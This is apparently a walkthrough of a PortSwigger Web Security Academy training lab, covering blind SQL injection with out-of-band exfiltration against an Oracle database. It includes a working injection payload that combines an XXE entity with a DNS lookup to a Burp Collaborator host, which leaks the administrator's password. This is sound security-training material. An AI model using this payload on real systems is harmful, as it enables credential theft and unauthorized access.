

# Write-up: Blind SQL injection with out-of-band data exfiltration


This write-up for the lab *Blind SQL injection with out-of-band data exfiltration* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration>  
Difficulty: PRACTITIONER  
Burp Suite Professional is required to solve this lab!

## Lab description


## Query

The query used in the lab will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In my case, the cookie contains this content
`Cookie: TrackingId=BR3agStQwzeln8Z6; session=cQ7k63wrOmVgTV4P62F5zEYadIbtX9e9`

I will omit the complete cookie content from now on and only provide the string appended to the value of `TrackingId`.

## Steps

The first step is identical to the [previous lab](../Blind_SQL_injection_with_out-of-band_interaction/README.md) so I do not repeat it here.

After confirming this Lab uses an Oracle database as well, I send a request to Burp Repeater and insert the password into as subdomain into the DNS query:

`'||(SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.3txa3t7g4os2eh9558lzp3fqbhh75w.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)||'`


The Burp collaborator client then provides me with the administrator password:


I use this password and attempt to log in as `administrator`. This is successful and the lab updates to


